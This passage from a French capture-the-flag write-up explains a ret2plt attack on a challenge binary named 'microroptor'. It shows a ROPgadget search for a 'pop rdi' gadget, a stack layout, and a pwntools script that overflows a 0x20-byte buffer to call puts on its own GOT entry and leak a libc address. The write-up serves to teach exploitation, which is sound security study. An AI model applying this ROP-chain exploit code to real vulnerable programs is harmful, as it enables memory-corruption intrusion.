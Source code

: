 Pour cela on va faire un ret2plt pour appeler `puts(addr_puts_dans_la_got)`.
Puisque `puts` a déjà été appelée au moment du ret, son entrée dans la GOT sera
complétée par l'adresse de puts dans la libc.

Un ret2plt consiste à placer sur la stack, l'adresse de l'entrée de la plt
correspondant à la fonction que l'on souhaite exécuter. Cette technique
nécessite uniquement la connaissance de l'adresse du binaire, pas besoin de
savoir où se trouve la libc !

L'ordre des arguments pour l'appel d'une fonction en x86-64 est : `rdi`, `rsi`,
`rdx`, `rcx`, `r8`, `r9`.

`puts` attend un argument, il nous faut donc un gadget pour pouvoir placer une
valeur arbitraire dans `rdi`. On se sert de
[ROPGadget](https://github.com/JonathanSalwan/ROPgadget) :
```sh
$ ROPgadget --binary microroptor | grep 'pop rdi'
0x000000000000116f : pop rdi ; ret
```

Notre gadget se trouvera donc à `addr_binaire + 0x116f`.  
Comme `read` lit dans un buffer de 0x20 octets, la stack aura cette
disposition :
```
+---------------+----------------------+----------------------+
|               |                      |                      |
| buffer (0x20) | sauvegarde rbp (0x8) | sauvegarde rip (0x8) |
|               |                      |                      |
+---------------+----------------------+----------------------+
```

Ce qui donne :
```py
def main():
    global r
    r = conn()
    attach_gdb()

    leak = int(r.recvline().strip(), 16)
    exe.address = leak - (exe.bss()-0x8)
    info(f"exe @ {hex(exe.address)}")

    pop_rdi_ret = p64(exe.address + 0x000000000000116f)

    rop = b"A"*0x20 # buffer
    rop += b"B"*8 # saved rbp
    rop += pop_rdi_ret + p64(exe.got["puts"])
    rop += p64(exe.plt["puts"])
    r.sendline(rop)

    r.interactive()

if __name__ == "__main__":
    main()

```
